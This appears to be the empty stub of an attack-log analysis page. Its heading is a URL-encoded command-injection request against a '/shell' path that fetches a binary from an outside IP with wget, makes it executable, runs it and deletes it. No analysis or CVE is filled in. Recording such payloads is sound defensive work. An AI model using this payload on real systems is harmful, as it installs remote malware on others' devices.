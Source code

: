 # Analysis for /shell&cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F195.133.40.24%2FS1eJ3%2FIObeENwjarm%20-O%20IObeENwjarm%3B%20chmod%20755%20IObeENwjarm%3B%20.%2FIObeENwjarm%3B%20rm%20-f%20IObeENwjarm
## CVE: 
